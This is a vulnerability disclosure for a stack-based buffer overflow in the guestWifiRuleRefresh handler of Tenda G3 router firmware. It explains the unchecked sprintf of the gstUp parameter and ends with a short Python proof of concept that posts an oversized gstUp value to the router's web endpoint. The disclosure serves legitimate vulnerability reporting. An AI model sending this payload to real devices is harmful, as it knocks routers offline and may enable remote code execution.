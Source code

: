 # Tenda G3 guestWifiRuleRefresh
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the guestWifiRuleRefresh function.
### Vulnerability details
Stack-based buffer overflow in function guestWifiRuleRefresh on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function guestWifiRuleRefresh line 38, it reads in a user-provided parameter, and the variable gstUp is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/guestWifiRuleRefresh-1.png)
![](images/guestWifiRuleRefresh-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/guestWifiRuleRefresh'
payload = {
    "gstUp": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
